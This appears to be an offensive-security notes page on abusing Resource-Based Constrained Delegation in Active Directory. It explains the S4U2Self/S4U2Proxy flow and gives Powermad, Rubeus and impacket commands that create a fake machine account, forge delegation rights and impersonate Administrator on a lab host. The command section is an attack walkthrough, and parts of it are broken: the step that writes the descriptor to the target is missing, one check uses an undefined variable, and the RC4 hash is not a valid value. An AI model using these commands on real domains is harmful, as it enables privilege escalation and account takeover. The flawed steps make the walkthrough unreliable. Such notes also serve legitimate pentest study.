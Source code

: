 # RBCD

## <mark style="color:yellow;">ABOUT</mark>

<mark style="color:red;">**RBCD**</mark> is a <mark style="color:purple;">**Windows Active Directory mechanism**</mark> where a computer object specifies which accounts are allowed to impersonate users to it, for constrained **(limited)** network-based delegation using Kerberos.

> Attackers exploit it by inserting themselves into that trust list and impersonating any user.

<mark style="color:yellow;">**"Resource-Based"**</mark> means the permission is set on the target machine, not on the impersonating account.&#x20;

<mark style="color:yellow;">**"Constrained"**</mark> means the impersonation is limited to specific services, like SMB or LDAP, not all services.&#x20;

<mark style="color:yellow;">**"Delegation"**</mark> means one account can act as another user across the network, not just locally.

RBCD allows a computer or service account to say, <mark style="color:orange;">**"this other account is allowed to act as any user when connecting to me."**</mark> Attackers abuse it by **creating their own computer account**, then **writing their own SID into the delegation attribute** on a target machine. After that, they can impersonate any domain user, like Administrator, to that target.

> So basically it is crippled version of full impersonation, which is good, considering rule of least privilege

### <mark style="color:blue;">Requirements</mark>

| Element               | Value                               |
| --------------------- | ----------------------------------- |
| Domain User           | Administrator@militech.local        |
| Fake Machine Account  | FAKE01$                             |
| Fake Machine Password | 123456                              |
| Fake Machine SID      | _To be retrieved during attack_     |
| Target Machine        | WS01                                |
| Target Admin          | Administrator                       |
| Domain Controller     | DC01                                |
| Delegation Permission | Write access to WS01 RBCD attribute |

## <mark style="color:yellow;">FLOW</mark>

1. Create a fake machine account (<mark style="color:green;">**FAKE01$**</mark>), if <mark style="color:green;">`MachineAccountQuota`</mark> allows it.
2. Add <mark style="color:green;">**FAKE01$**</mark> SID to the <mark style="color:green;">**`msDS-AllowedToActOnBehalfOfOtherIdentity`**</mark> attribute on the target machine **WS01**, granting delegation rights.
3. Authenticate as <mark style="color:green;">**FAKE01$**</mark> and request a Kerberos ticket as Administrator to <mark style="color:green;">**FAKE01**</mark> (<mark style="color:red;">**S4U2Self**</mark>).
4. Use that ticket to request a second ticket as Administrator to **WS01** (<mark style="color:red;">**S4U2Proxy**</mark>).
5. Receive a valid service ticket for Administrator to **WS01** and use it to access **WS01** as Administrator, achieving privilege escalation.

### <mark style="color:blue;">S4U2Self + S4U2Proxy</mark>

<mark style="color:red;">**S4U2Self**</mark> and <mark style="color:red;">**S4U2Proxy**</mark> are <mark style="color:purple;">**Kerberos protocol extensions**</mark>, not standalone attack techniques.

They were designed by Microsoft as part of **Service-for-User (S4U)** functionality to support **constrained delegation**. Their purpose is to let services act on behalf of users under strict control.

You can think of them as **functions inside the Kerberos protocol**:

* <mark style="color:red;">**S4U2Self**</mark> = <mark style="color:yellow;">**"Service for User to Self"**</mark>\
  Lets a service request a ticket for any user to itself, without needing the user's password. <mark style="color:orange;">**LOCAL ONLY**</mark> (So as separate technique pointless, because to do it we already need to have full control over machine)
* <mark style="color:red;">**S4U2Proxy**</mark> = <mark style="color:yellow;">**"Service for User to Proxy"**</mark>\
  Lets the service use that ticket to request a second ticket to another service, completing delegation.

## <mark style="color:yellow;">WINDOWS</mark>

#### 1. Creating Machine Object

> For this we need PowerMAD script [**\[LINK\]**](https://github.com/Kevin-Robertson/Powermad)

```powershell
PS C:\> New-MachineAccount -MachineAccount FAKE01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```

#### Checking Object + Taking it's SID

```powershell
PS C:\> Get-DomainComputer fake01
```

#### 2. Creating Security Descriptor for FAKE01

```powershell
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;S-1-5-21-2552734371-813931464-1050690807-1154)"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
```

#### Checking Descriptor

```powershell
PS C:\> (New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList $RawBytes, 0).DiscretionaryAcl
```

#### 3. Generating RC4 Hash for FAKE01

```powershell
.\Rubeus.exe hash /password:123456 /user:FAKE01$ /domain:militech.local
```

#### 4. Impersonating

```powershell
.\Rubeus.exe s4u /user:fake01$ /rc4:3SAOIDFHOQWEB1O82G3O123KBSND /impersonateuser:Administrator /msdsspn:cifs/ws01.militech.local /ptt
```

#### Base64 Ticket to Ccache ticket

```bash
base64 -d ticket_bash64.txt > ticket.kirbi
impacket-ticketConverter ticket.kirbi ticket.ccache
export KRB5CCNAME=/home/v17/tickets/ticket.ccache
klist
```

## <mark style="color:yellow;">RESOURCES</mark>

{% embed url="https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/resource-based-constrained-delegation-ad-computer-object-take-over-and-privilged-code-execution#creating-a-new-computer-object" %}
